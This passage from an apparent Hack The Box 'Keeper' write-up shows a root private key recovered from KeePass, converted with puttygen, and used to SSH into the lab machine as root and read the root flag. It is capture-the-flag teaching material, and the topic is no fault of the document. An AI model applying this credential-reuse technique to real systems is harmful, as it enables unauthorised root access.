![putty](Thu-30-2023_00-27.png)

And considering the username in Keepass is `root`, this seems very high value.

To use this, I could either install PuTTY and import the key, or I could convert the key into an OpenSSH key. I install `putty-tools` to get access to PuTTYgen. I write the PuTTY key to a `.ppk` file (for putty). Copy and pasting out of Keepass cli is kind of funky, so I give it to ChatGPT to fix the formatting. I then use `puttygen` to convert the key to an OpenSSH key. `-O` to specify the output key type, `-o` for the output keyfile name.
```bash
puttygen putty_ssh.ppk -O private-openssh -o putty_rsa

# Don't forget to set proper permissions on the ssh key
chmod 600 putty_rsa
```
With this, I try SSHing in to the box as root, and it works! Very cool.
```bash
┌──(kali㉿Kali)──[0:44:24]──[~/htb/Machines/Keeper]
└─$ ssh -i putty_rsa root@10.129.57.205    

<...SNIP...>

root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)

root@keeper:~# cat /root/root.txt
fd1628--------------------------
```